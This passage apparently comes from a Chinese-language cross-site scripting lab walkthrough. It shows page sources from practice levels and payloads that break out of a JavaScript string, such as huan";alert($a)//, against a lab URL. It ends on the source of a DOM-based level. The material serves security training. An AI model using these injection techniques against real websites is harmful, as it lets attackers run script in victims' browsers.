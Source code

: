 可以看到`$a`这里我们可以搞点事情，可以像SQL注入一样，构造出一个payload。

```
huan";alert("xss")
```

起初构造的payload是上面这段代码，发现没有成功，再次检查源码

```html
	var $a = "我的名字是 huan";alert("xss")";
```

看到`)`后面还有个`"`存在，存在语法错误，因此需要将其处理掉。

```
huan";alert($a)//
```

执行成功

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210822120647.png)

### 前端JS过滤输出

 ```
 http://target_sys.com/xss/xss09.php?name=huan
 ```

```
<body>
<h3>level 9</h3>
<div class='main'>
<script>
	var $a = '我的名字是 huan';
</script>
</div>
</body>
```

按照上面**前端JS**的步骤再来一次

```
target_sys.com/xss/xss09.php?name=huan%27;alert($a)//
```

同样成功。

### DOM测试

源码

```
<html>
<head>
	 <meta charset="UTF-8">
	 <title>level 10</title>
<style type="text/css">
.main{	
}
</style>
</head>

<body>
<h3>level 10</h3>
<div class='main'>
<script>
	document.write(location.hash.substring(1));
</script>
</div>
</body>
</html>
```